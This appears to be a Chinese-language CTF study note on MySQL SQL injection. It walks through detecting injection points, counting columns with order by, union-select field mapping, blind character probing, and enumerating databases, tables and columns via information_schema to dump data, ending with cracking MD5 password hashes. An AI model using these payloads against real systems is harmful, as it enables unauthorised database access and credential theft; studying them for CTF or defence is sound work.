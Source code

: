 ```yaml
---
title: EASY SQL_Injection
date: 2019-12-25T21:33:03+08:00
tags:
  - CTF
  - SQL
  - Injection
categories:
  - Penetration
---
```


> 以 `mysql` 为例， 不同数据库的特殊情况另行整理

## 0x00 判断注入点

`1 and 1=1` 返回正常， `1 and 1=2` 返回错误说明存在注入点
(以上为数字型，字符串型应加引号，如 `1'and’1'=‘1`)

<!-- more -->

## 0x01 判断字段数（列数）

使用 `order by <num>` , 根据返回判断列数，当 `<num>` 大于最大列数时，将返回错误

## 0x02 匹配字段位置

根据字段数构造联合查询语句 `id=1 and 1=2 union select 1,2,...n` ， `n` 即为字段数，根据不同数字在页面中出现的位置，选择合适的字段作为 payload 对数据库中的信息进行查询

## 0x03 内置函数和系统数据库

version() 版本信息
database() 当前数据库
user() 当前用户

- `and ord(mid(user(),1,1))=114 ` //即 user() 以字母 ’r‘ 开头

@@global.version_compile_os from mysql.user

## 0x04 使用 mysql 的数据库的系统库获取信息

（mysql 5 以上）information_schema

`select SCHEME_NAME from information_schema.SCHEMATA limit 0,1` //查看库名

`select TABLE_NAME from information_schema.TABLES where TABLE_SCHEMA=<database> limit 0,1` //查看表名，<database> 可能需要转为 0xHHHHHHH 的十六进制格式。

`select  COLUMN_NAME from information_schema.COLUMNS where TABLE_NAME=<table> limit 0,1`//查看列名

`select <column_1>,<column_2>,concat(<column_3>,<column_4>) from <table> limit 0,1` //查看表内信息

（concat 函数中可以考虑用如 0x3c 之类的标识符进行分割）

## 后续

一般数据库中密码都会进行 md5 加密， 因此要获取明文需要对其进行解密
